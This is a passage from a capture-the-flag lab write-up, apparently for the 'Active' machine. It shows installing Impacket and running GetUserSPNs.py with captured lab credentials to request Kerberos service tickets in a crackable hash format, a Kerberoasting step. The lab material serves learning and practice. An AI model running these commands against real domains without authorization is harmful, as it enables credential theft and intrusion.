 To do that, download [Impacket](https://github.com/SecureAuthCorp/impacket). This includes a collection of Python classes for working with network protocols.

```text
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
python setup.py install #install software
```

They have a script in the /examples folder called GetUserSPNs.py that is used to find SPNs that are associated with a given user account. It will output a set of valid TGSs it requested for those SPNs.

![](../images/max/904/1*Tv_IrQcTcUMYYHezr6DPdA.png)

Run the script using the SVC\_TGS credentials we found.

```text
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

* **target:** domain/username:password
* **-dc-ip**: IP address of the domain controller
* **-request**: Requests TGS for users and outputs them in JtR/hashcat format

We get back the following output.

![](../images/max/1054/1*AUJY2mlHHxNu_KiSxL2Lpw.png)
